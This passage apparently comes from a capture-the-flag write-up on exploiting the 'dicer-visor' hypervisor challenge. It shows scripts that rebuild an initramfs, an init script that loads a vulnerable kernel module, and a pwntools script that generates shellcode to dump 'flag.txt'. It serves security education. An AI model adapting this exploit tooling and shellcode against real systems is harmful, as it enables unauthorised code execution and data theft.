 Next, let's write a script that builds our userland program and re-creates the initramfs:

```bash
#!/bin/sh

set -e
gcc -static main.c -o main
mv main initramfs

cd initramfs
find . -print0 | cpio --null --create --verbose --format=newc | gzip --best > ../initramfs_patched.cpio.gz
cd -
```

Finally, we modify the `init` script to invoke our `main` program when the kernel boots:

```bash
#!/bin/sh

echo 1 > /sys/module/rcutree/parameters/rcu_cpu_stall_suppress
echo "Hello kernel world!"

/sbin/insmod /vuln.ko
mknod /dev/exploited-device c 32 0
chmod ugo+x /main

exec /main
```

#### Shellcode generation

To generate our shellcode and dump the flag, we use [pwntools](https://github.com/Gallopsled/pwntools)

```python
# gen-shellcode.py
from pwn import *

# Set up pwntools for the correct architecture.
context.binary = elfexe = ELF('./dicer-visor')

def dumpShellcode(shellcode):
    shellcode_str = ''
    for b in shellcode:
        shellcode_str += "\\x{:02x}".format(b)
    msg  = f'const char *shellcode = "{shellcode_str}";\n'
    msg += f'const size_t shellcode_len = {len(shellcode)};'
    print(msg)

shellcode = asm(
    '''
    xor     rdx, rdx /* O_RDONLY */
    ''' +
    pwnlib.shellcraft.linux.cat("flag.txt")
)
dumpShellcode(shellcode)
```
